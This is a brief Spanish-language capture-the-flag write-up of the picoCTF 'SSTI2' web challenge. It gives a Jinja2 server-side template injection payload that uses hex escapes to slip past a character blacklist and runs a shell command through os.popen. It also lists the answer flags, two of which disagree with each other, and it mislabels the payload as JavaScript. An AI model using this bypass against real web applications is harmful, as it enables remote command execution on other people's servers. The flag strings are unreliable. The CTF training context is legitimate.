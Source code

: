 #Software #Hacking #WebExplotation #Web #Internet 
Hecho por: [[Briseida Guzmán Ramírez]]
# Definición
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:58834/)!
# Hints
- Server Side Template Injection
- Why is blacklisting characters a bad idea to sanitize input?
# Solución
Entramos a la pagina web e ingresamos en el cuadro de texto esto (hacemos un request de [[Javascript]])

```javascript
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')() }}
```
picoCTF{sst1_f1lt3r_byp4ss_eb2a60e7}
Flag: picoCTF{sst1f1lt3rbyp4sse964f71b}
>//Link de ayuda [https://aathilducky.com/ssti2-picoctf-walkthrough-web-exploitation-challenge-guide/](https://aathilducky.com/ssti2-picoctf-walkthrough-web-exploitation-challenge-guide/)
## Respuesta
picoCTF{sst1_f1lt3r_byp4ss_eb2a60e7}